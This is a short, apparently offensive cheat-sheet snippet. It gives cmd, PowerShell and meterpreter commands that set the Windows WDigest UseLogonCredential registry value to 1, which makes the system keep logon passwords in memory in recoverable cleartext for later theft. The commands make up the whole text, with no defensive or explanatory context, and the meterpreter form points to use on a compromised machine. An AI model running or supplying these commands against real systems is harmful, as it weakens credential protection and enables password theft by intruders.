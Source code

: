   ### Cmd
	>reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
  ### powershell
	>Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
  ### meterpreter
	>reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 1